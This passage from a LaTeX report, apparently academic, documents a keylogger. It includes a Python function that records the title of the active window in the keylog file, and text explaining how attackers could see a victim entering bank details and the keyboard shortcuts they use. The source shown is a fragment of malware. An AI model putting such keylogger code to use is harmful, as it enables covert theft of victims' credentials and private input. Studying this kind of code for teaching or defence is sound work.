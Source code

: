 \begin{codesnippet}[H]
    \caption{Get active window function}
    \label{code:get_active_window}
\end{codesnippet}
\vspace{-0.75cm}
\begin{lstlisting}
    # Returns the name of the current active window
    def get_active_window(self):
        try: current_active_window = self.ewmh.getWmName(self.ewmh.getActiveWindow())
        except: return
        if current_active_window == self.previous_active_window: return

        with open(self.keylog_txt_name, 'a') as file:
            if self.previous_action == 'Key': file.write('\n')
            file.write(f"\n########## {str(current_active_window)[2:-1]} ##########\n")
        self.previous_action = 'Window'

        self.previous_active_window = current_active_window
        return current_active_window
\end{lstlisting}

\begin{figure}[H]
    \centering
    \includegraphics[width=0.8\textwidth]{Images/Keylogger.png}
    \caption{Keylogger output.}
    \label{fig:keylogger}
\end{figure}
\vspace{-0.5cm}

As can be seen in the \textit{}, the attackers would be able to notice that the user is entering their bank account in the Mozilla browser. Not that special keys are written in capital letters when pressed, but in lower letters when released. This is made to allow attackers to know the shortcuts used, like \textit{"Ctrl + C"}, \textit{"Win + Tab"}, etc.


\subsection{Server Management}
\label{sec:server_management}

